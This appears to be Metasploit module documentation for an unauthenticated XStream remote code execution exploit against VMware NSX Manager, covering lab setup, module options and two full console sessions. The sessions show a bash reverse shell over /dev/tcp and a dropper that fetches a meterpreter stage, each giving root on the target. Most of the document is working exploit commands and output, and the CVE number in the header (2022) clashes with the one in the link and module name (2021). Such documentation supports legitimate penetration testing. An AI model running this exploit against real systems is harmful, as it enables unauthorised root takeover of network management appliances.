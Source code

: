## Vulnerable Application

VMware Cloud Foundation contains a remote code execution vulnerability via XStream open source library [CVE-2022-39144](https://nvd.nist.gov/vuln/detail/CVE-2021-39144).
VMware has evaluated the severity of this issue to be in the [Critical severity range](https://www.vmware.com/support/policies/security_response.html) with a maximum CVSSv3 base score of [9.8](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H).
Due to an unauthenticated endpoint that leverages XStream for input serialization in VMware Cloud Foundation (NSX-V),
a malicious actor can get remote code execution in the context of `root` on the appliance.

VMware Cloud Foundation `3.x` and more specific NSX Manager Data Center for vSphere up to and including version `6.4.13`
are vulnerable to Remote Command Injection.

This module has been tested against VMware NSX Manager (NSX-V) with the specifications listed below:

* VMware NSX Manager
* Version `6.4.13`
* Version `6.4.4`

## Verification Steps

Follow these instructions to install a vulnerable VMware NSX Manager on VirtualBox.
* Go to [Download VMware NSX for vSphere 6.4.13](https://customerconnect.vmware.com/en/downloads/details?downloadGroup=NSXV_6413&productId=417&rPId=96480)
* Note: You need to be a customer with valid VMware subscriptions
* Download the ova file `VMware-NSX-Manager-6.4.13-19307994.ova`
* Open VirtualBox and import the ova file
* After successful import, start the VM and you have a VMware NSX Manager running which is accessible using url `https://<nsx-manager-ip>`
* Credentials to login: user: `admin`, password: `default`
* Use the module and options below to test the vulnerability...

1. `use use exploit/linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-Unix command or 1-Linux Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the target and payload settings.

## Options
No specific options.

## Scenarios

### VMware NSX Manager bash reverse shell

```
msf > use exploit/linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > options

Module options (exploit/linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machi
                                       ne or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix (In-Memory)


msf exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > set rhosts 192.168.100.5
rhosts => 192.168.100.5
msf exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.5:443 can be exploited !
[+] The target appears to be vulnerable. Target is running VMware NSX Manager (NSX-V)
[*] Executing Unix (In-Memory) with bash -c '0<&44-;exec 44<>/dev/tcp/192.168.100.7/4444;sh <&44 >&44 2>&44'
[*] Command shell session 14 opened (192.168.100.7:4444 -> 192.168.100.5:42512) at 2022-11-05 10:33:37 +0000

pwd
/usr/lib/tanuki/bin
whoami
root
exit
[*] 192.168.100.5 - Command shell session 14 closed.

```

### VMware NSX Manager meterpreter session

```
msf > use exploit/linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > options

Module options (exploit/linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machi
                                       ne or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > set rhosts 192.168.100.5
rhosts => 192.168.100.5
msf exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.5:443 can be exploited !
[+] The target appears to be vulnerable. Target is running VMware NSX Manager (NSX-V)
[*] Executing Linux Dropper
[*] Using URL: http://192.168.100.7:8080/G5xrKmpiufcQdCt
[*] Client 192.168.100.5 (curl/7.81.0) requested /G5xrKmpiufcQdCt
[*] Sending payload to 192.168.100.5 (curl/7.81.0)
[*] Command Stager progress - 100.00% done (121/121 bytes)
[*] Sending stage (3045348 bytes) to 192.168.100.5
[*] Meterpreter session 13 opened (192.168.100.7:4444 -> 192.168.100.5:42384) at 2022-11-05 10:29:30 +0000
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.100.5
OS           : NSX Manager 6.4.13 (Linux 4.9.297)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

## Limitations
The vulnerability check is limited in detecting that VMWare NSX Manager (NSX-V) is running without obtaining the version information.
However all VMware NSX Manager versions up to `6.4.13` are vulnerable, except for `6.4.14`, so most detected targets are likely
to be vulnerable.
